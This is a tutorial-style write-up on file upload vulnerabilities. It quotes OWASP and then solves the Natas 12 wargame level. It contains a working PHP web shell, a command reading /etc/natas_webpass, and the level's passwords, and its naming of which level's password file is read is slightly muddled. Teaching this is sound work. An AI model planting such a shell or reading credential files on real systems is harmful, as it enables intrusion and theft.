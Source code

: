 # File upload vulnerability

## OWASP Description
Uploaded files represent a significant risk to applications. The first step in many attacks is to get some code to the system to be attacked. Then the attack only needs to find a way to get the code executed. Using a file upload helps the attacker accomplish the first step.

The consequences of unrestricted file upload can vary, including complete system takeover, an overloaded file system or database, forwarding attacks to back-end systems, client-side attacks, or simple defacement. It depends on what the application does with the uploaded file and especially where it is stored.

There are really two classes of problems here. The first is with the file metadata, like the path and file name. These are generally provided by the transport, such as HTTP multi-part encoding. This data may trick the application into overwriting a critical file or storing the file in a bad location. You must validate the metadata extremely carefully before using it.

The other class of problem is with the file size or content. The range of problems here depends entirely on what the file is used for. See the examples below for some ideas about how files might be misused. To protect against this type of attack, you should analyse everything your application does with files and think carefully about what processing and interpreters are involved.

## shell.php
```php
<?php
echo system($_GET["cmd"]);
?>
``` 


### Explore it yourself :
 make a PHP file to test the vulnerability locally in your system through localhost with the code mentioned above.
## Let's try a challenge

NATAS 12 :
 - USERNAME : natas12
 - PASSWORD : EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3 
 
 ![natas12](natas12.1.png)

You can see that we can upload a file here. Let's try to upload a file so that we can get a shell on the website.

Make the shell.php file. We can pass the commands through the URL.


Now let's upload the PHP file. But during the upload, we should change the .jpeg format to .php by intercepting the request.

![natas12](natas12.3.png)

Once you open the link generated by the site, we can start exploiting by giving the commands we desired. Once we get the shell we can do various things.
</br></br>
The password for the next level will be in the folder /etc/natas_webpass/
where natas12 is the file containing the password.

## so...
```
.php?cmd=cat  /etc/natas_webpass/natas12
```

Gives the password : jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
</br></br>
![natas12](natas12.5.png)

 This is a basic example of File upload vulnerability.



